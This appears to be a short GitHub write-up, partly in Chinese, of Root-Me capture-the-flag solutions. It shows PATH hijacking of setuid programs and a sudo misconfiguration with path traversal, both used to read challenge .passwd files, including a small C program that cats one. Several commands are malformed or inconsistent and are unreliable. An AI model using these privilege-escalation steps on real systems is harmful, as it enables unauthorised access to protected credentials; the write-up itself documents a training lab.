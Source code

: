 # ROOTME
## 1.Bash - System 1
````bash
cd tmp
mkdir tmp1
cd tmp1
export PATH /tmp/tmp1:${PATH}	Export PATH /tmp/tmp1:PATH
ln -s /bin/cat 
ls
~/ch11
````
---
## 2.sudo - weak configuration 
````bash 
sudo -l
password app-script-ch1
````

matching Defaults entries for app-script-ch1 on challenge02:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !mail_always, !mail_badpass, !mail_no_host, !mail_no_perms, !mail_no_user

user app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/ch1/*
````
sudo -u app-script-ch1-cracked 
cat /challenge/app-script/ch1/notes/../ch1craked/.passwd
````
---
## 3.Bash - System 2
与第一题方式相同
````bash
cp /bin/nano /tmp/tmp1/ls
````
另一种方式：
````bash
nano ls.c
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char  *argv[]){
       system("cat /challenge/app-script/ch12/.passwd");
       return 0;
}
gcc ls.c -o ls
export PATH=/tmp/pwnd1:$PATH
~/ch12
````
第三种方式：
````bash
nano ls
cat $2
chmod +x ./ls
export PATH=/tmp/pwnd1:$PATH
~/ch12
````
---
## 4.Perl - Command injection
````bash
./setuid-wrapper
````